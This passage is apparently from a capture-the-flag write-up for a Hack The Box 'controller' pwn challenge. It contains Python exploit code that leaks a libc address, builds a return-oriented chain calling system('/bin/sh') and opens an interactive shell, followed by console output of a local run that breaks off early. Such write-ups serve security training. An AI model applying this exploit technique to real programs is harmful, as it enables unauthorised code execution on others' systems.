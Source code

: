 ```python

#recv bytes of puts address from binary, then calculate the offset from binary puts address to libc puts address - leak
data_bytes = p.recv(6)
puts = u64(data_bytes + b'\0\0')
log.info('puts locate on: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('puts libc.address: ' + hex(libc.address))


#Multipile two resources to get buffer overflow again
get_bof()

pop_rsi_r15 = next(binary.search(asm('pop rsi ; pop r15 ; ret'))) #pop rsi gadget
bin_sh = libc.search(b"/bin/sh").__next__()
system = libc.sym.system
payload = b'A'*0x28
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

Let's run it locally:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ python3 exploit.py 
[*] '/ctf_htb/cyber_apocalypse/pwn/controllercontroller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/controllercontroller': pid 16379

👾 Control Room 👾

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
```